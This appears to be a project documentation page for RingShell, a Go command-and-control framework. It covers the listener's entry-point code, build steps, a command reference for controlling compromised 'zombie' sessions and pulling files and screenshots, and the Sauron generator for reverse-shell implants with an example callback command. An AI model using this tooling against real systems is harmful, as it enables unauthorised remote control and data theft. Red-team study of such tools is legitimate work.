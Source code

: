 ﻿# RingShell Project

=== "Description"
    **RingShell** is a lightweight **Command and Control (C2)** framework written in **Golang**, intended for **educational purposes** in offensive security. It supports reverse shell payloads and can be extended with custom modules or payloads. RingShell is composed of two primary components:

    1. **Listener** – A shell interface for managing sessions with compromised systems.

    2. **Payload Generator (Sauron)** – A binary generator for cross-platform reverse shell payloads.

=== "Code"
    ``` golang title="main.go" linenums="1"
    package main
    import (
        "flag"
        "fmt"
        "www.github.com/MustafaAbdulazizHamza/RingShellListener/Art"
        "www.github.com/MustafaAbdulazizHamza/RingShellListener/Server"
    )
    func main() {
        port := flag.Int("p", 8888, "Port number for the server to listen on")
        flag.Parse()
        Art.Art()
        fmt.Printf("Starting server on port %d...\n", *port)
        Server.Server(*port)
    }
    ```
=== "Documentation"

    ### RingShell Documentation v1.0

    ![RingShell](https://github.com/MustafaAbdulazizHamza/RingShell/blob/main/ringShell.png?raw=true)
    **RingShell** is a lightweight **Command and Control (C2)** framework written in **Golang**, intended for **educational purposes** in offensive security. It supports reverse shell payloads and can be extended with custom modules or payloads. RingShell is composed of two primary components:

    1. **Listener** – A shell interface for managing sessions with compromised systems.
    2. **Payload Generator (Sauron)** – A binary generator for cross-platform reverse shell payloads.

    ---

    ### 🧪 Installation

    #### Prerequisites

    - Linux-based environment
    - [Go Programming Language](https://golang.org/dl/)

    #### Setup

    ```bash
    git clone https://github.com/MustafaAbdulazizHamza/RingShell.git
    cd RingShell/RingShell
    go build -o RingShell
    cd ../Sauron
    go build -o sauron
    ```

    ---

    ### 📚 Terminology

    1. **Ring**  
    A **Ring** refers to a deployed RingShell payload. It is the agent (or implant) that establishes a connection back to the C2 infrastructure, allowing remote control of the target system.

    2. **Servers**  
    In RingShell, a **Server** is a TCP endpoint created using the `bind` command. It can be one of the following:
    
    - **Listening Server**:  
        A passive server that receives data (e.g., screenshots, logs) from a payload. It acts as a dropbox-style endpoint for exfiltration or monitoring.
    
    - **Controlling Server**:  
        An active C2 component that maintains an interactive connection with one or more Rings. It sends commands and receives outputs from the connected agents.

    3. **Sauron**  
    **Sauron** is the command-line tool used to generate Rings (payloads). It supports custom parameters like target OS, architecture, listener IP/port, and output directory. The result is a compiled binary that can be deployed on the target system.
    ---

    ### 🛰️ RingShell Listener

    The **RingShell Listener** provides an interactive CLI for managing active sessions, executing commands, transferring files, and controlling the C2 infrastructure.

    #### 🧾 General Syntax

    ```bash
    command [subcommand] [arguments...]
    ```

    > Some commands require a selected session via `listen <session_id>`.

    ---

    #### 📖 Command Reference

    Below is a table summarizing all available built-in commands:

    | Command | Syntax | Description |
    |--------|--------|-------------|
    | **listen** | `listen <session_id>` | Focuses interaction on a specific zombie session. |
    | **q!** | `q!` | Exits the RingShell interface. |
    | **list** | `list [sessions \| servers] [listening \| controlling]` | Lists all active sessions or servers. |
    | **set** | `set <option> <value>` | Sets global parameters: `port`, `timeout`, `out`. |
    | **get** | `get <screenshots \| image \| file> [filename(s)]` | Retrieves data or files from the target. |
    | **bind** | `bind <listening \| controlling> <port> [named <name>]` | Launches a server on the specified port. |
    | **send** | `send To <controlling_server> <command \| file> <arg>` | Sends a command or script file to a controller. |
    | **kill** | `kill <controlling \| listening> <name>` | Terminates a running server. |
    | **import** | `import <script_file>` | Executes a RingShell script. |
    | **upload** | `upload <file \| executable> <path>` | Uploads a file to the remote session. |
    | *(any other command)* | `<command>` | Sent directly to the active session. |

    ---

    #### 🔄 Session-Specific Commands

    After using `listen <session_id>`, all subsequent inputs are interpreted as commands for that session.

    **Example:**
    ```bash
    listen zombie01
    whoami
    cd /tmp
    ls -al
    ```

    If no session is selected, the shell will warn:

    ```text
    You must specify a session ID before attempting to send a command.
    ```

    ---

    #### 💡 Auto-Completion

    RingShell includes intelligent auto-completion with:

    - Session and server ID suggestions
    - File and path hints
    - Syntax assistance for multi-level commands

    ---

    ### 🧪 Sauron: Payload Generator

    **Sauron** is a CLI utility that generates RingShell reverse shell binaries. It supports multiple platforms and architectures.

    #### 🔧 Usage

    ```bash
    Usage of ./Sauron:
    A tool that is used to generate rings based on user input.

    Flags:
    -arch string      Target architecture (e.g., amd64)
    -ip string        Listener IP address
    -os string        Target operating system (lowercase)
    -out string       Full path to output directory
    -port int         Port to connect back to

    Example:
    ./sauron -ip 192.168.1.10 -port 8080 -os windows -arch amd64 -out /home/user/output/
    ```

    ---

    ### 🔐 Disclaimer

    This tool is intended strictly for **educational** and **research** purposes in controlled environments.  
    Misuse against systems without authorization is **illegal** and **prohibited**.

=== "Download"
    [![GitHub](https://img.shields.io/badge/Source-GitHub-blue)](https://github.com/MustafaAbdulazizHamza/RingShell)
